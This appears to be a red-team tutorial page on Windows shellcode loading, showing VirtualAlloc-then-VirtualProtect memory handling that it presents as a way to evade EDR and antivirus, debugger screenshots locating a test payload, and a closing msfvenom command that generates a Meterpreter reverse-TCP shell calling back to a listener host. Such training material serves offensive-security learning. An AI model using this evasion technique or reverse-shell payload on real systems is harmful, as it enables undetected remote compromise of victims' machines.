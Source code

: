 # Code section

## Payload in code section

Note: EDR and AV software are most of the time looking for action like memory buffer allocation to \(read write and execute\) at the same time. One way to bypass that is to create the buffer, set readwrite permission first and then, make it executable.

**Payload is stored into the main function as a local variable**

* Set the memory buffer to Read and Write

`exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

* Set the memory buffer to Executable and Read

`rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`

### Payload \(0xCC \| INT3 allows the debugger to take control of the process, for testing purpose\)

```cpp
unsigned char payload[] = {
        0x90,        // NOP
        0x90,        // NOP
        0xcc,        // INT3
        0xc3        // RET
    };
```

#### Find pattern

Launch the process and attach it to the debugger. Go to `memory map` and search for the payload :

![](../../../../../.gitbook/assets/1a5f36f75b2f4784b0b342157c3b8394.png)

Get the memory addresses and search for them in "Memory Map" \(Note: it's a range\)

![](../../../../../.gitbook/assets/e4ce2a4460d343bda03c8f18646a00fd.png)

#### The payload is on the Stack

**local variable are located on stack**

![](../../../../../.gitbook/assets/55e2071510144db1a36194d4bdb21a8d.png)

#### Next one \(exec mem\)

From our code \(set Exec & read\)

`rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);`

![](../../../../../.gitbook/assets/c4646a1cee884cf080205fd592bc7488.png)

Note: Last column \(initial, -RW--\) correspond to the previous permission used here :

`exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

#### Last one

Text section, Executable

![](../../../../../.gitbook/assets/3c26a25023b742989620d538db0f67b2.png)

* Follow it in Assembly

![](../../../../../.gitbook/assets/8a543f2cbb7a46c2a2eeeeb9e21bc2f6.png)

### Weaponize it

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.110.0.61 LPORT=443 -f c`

![](../../../../../.gitbook/assets/8cfd6014130849cab01aa94f235a77af.png)

